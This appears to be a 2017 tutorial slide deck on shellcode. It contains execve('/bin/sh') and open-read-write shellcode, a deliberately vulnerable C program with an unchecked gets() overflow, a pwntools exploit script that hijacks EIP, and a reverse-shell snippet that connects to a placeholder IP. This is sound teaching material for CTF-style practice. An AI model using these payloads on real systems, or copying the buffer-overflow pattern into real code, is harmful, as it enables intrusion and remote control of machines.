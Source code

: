 #Shellcode

廖子慶  
2017/2/21 <!-- .element: align="right" -->

---

# About

Run the code you send.
[Shellcode DB](http://shell-storm.org/shellcode/) <!-- .element: target="blank" -->

--

# Generate

```python
# set env
from pwn import *
context.arch="i386"

# code asm
org_asm="""
push 0x0068732f
push 0x6e69622f
mov ebx, esp

mov eax, 0xb
mov ecx, 0x0
mov edx, 0x0
int 0x80
"""

# compile asm
sc=asm(org_asm)
print sc

# run shellcode
io=run_shellcode(sc)
io.interactive()
```

--

# Use

Control the \$EIP to your shell code

--

# Vulnerability program

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char global[100];
void vul(){
    char buf[4];
    gets(buf);
    strcpy(global,buf);
    return;
}
int main(int argc, char *argv[])
{
    vul();
    return 0;
}
```

```shell
gcc -m32 -fno-stack-protector -z execstack -o demo ./demo.c
```

[demo](https://drive.google.com/open?id=0B5w3KuqR3zoBR0MzYllkRlM2X2c)

--

# Pwn it !

```python
from pwn import *
context.arch="i386"

elf=ELF('./demo')
padding=16

io=process('./demo')
payload='A'*padding
payload+=p32(elf.symbols['global']+len(payload)+4)
payload+=asm(shellcraft.sh())
io.sendline(payload)

io.interactive()
```

--

![](./1.jpg)

---

# Type

--

# execve('/bin/sh')

```asm
push 0x0068732f
push 0x6e69622f
mov ebx, esp

mov eax, 0xb
mov ecx, 0x0
mov edx, 0x0
int 0x80
```

```python
shellcraft.sh()
```

--

# Open & Read & Write

```asm
    jmp flag
write :
    pop ebx
    mov eax,5
    mov ecx,0
    int 0x80

    mov ebx,eax
    mov ecx,esp
    mov edx,0x60
    mov eax,3
    int 0x80

    mov edx,eax
    mov ebx,1
    mov eax,4
    int 0x80

    mov eax,1
    int 0x80

flag :
    call write
    .ascii "/home/orw/flag"
    .byte 0
```

--

# Reverse shell

```python
sc = asm(shellcraft.i386.linux.connect("ip", port) +
        shellcraft.i386.linux.dup2(3, 0) +
        shellcraft.i386.linux.dup2(3, 1) +
        shellcraft.i386.execve('/bin/sh'))
```

---

# Practice

---

#Q & A

--

#END
